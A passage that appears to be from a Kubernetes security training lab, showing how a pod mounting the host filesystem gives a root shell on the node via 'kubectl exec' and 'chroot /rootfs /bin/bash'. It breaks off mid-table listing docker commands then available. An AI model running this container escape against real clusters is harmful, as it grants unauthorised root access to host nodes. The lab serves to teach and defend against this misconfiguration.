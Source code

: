 1.  Run `kubectl get pod` and re-run until it's in the "Running" state:

    kubectl get pod

(Output)

    NAME       READY   STATUS    RESTARTS   AGE
    hostpath   1/1     Running   0          30s

Click _Check my progress_ to verify the objective. <ql-activity-tracking step="2">Deploy a pod that mounts the host filesystem</ql-activity-tracking>

### Explore and compromise the underlying host

Run the following to obtain a shell inside the pod you just created:

    kubectl exec -it hostpath -- bash

Switch to the pod shell's root filesystem point to that of the underlying host:

    chroot /rootfs /bin/bash

With those simple commands, the pod is now effectively a `root` shell on the node. You are now able to do the following:

<table>

<tbody>

<tr>

<td colspan="1" rowspan="1">

run the standard docker command with full permissions

</td>

<td colspan="1" rowspan="1">

`docker ps`

</td>

</tr>

<tr>

<td colspan="1" rowspan="1">

list docker images

</td>

<td colspan="1" rowspan="1">

`docker images`

</td>

</tr>

<tr>

<td colspan="1" rowspan="1">
